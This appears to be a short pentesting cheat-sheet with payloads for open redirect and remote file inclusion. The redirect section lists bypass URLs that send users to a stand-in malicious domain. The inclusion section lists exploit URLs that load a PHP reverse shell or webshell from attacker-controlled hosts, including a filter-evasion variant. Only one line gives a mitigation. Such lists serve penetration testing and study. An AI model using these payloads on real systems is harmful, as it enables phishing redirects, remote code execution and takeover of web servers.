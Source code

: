 # Open Redirect

## Concept
- Allowed: https://example.com/login/?nextPage=https://google.com
- Not allowed: https://example.com/login/?nextPage=https://evilsite.com

## Payload
- https://example.com/login/?nextPage=https://evilsite.com/?google.com
- https://example.com/login/?redirect=https://www.evilsite.google.com
- https://example.com/login/?nextPage=https:///www.google.com@evilsite.com



# Remote File Inclusion

## Exploit
- ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
- ```index.php?page=http://attackerIP/webshell.php``` 
- ```index.php?page=htthttpp://attackerIP/webshell.php```
- ```?page=hTTp://10.20.14.203/reverse.txt?```

## Mitigation
-  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```
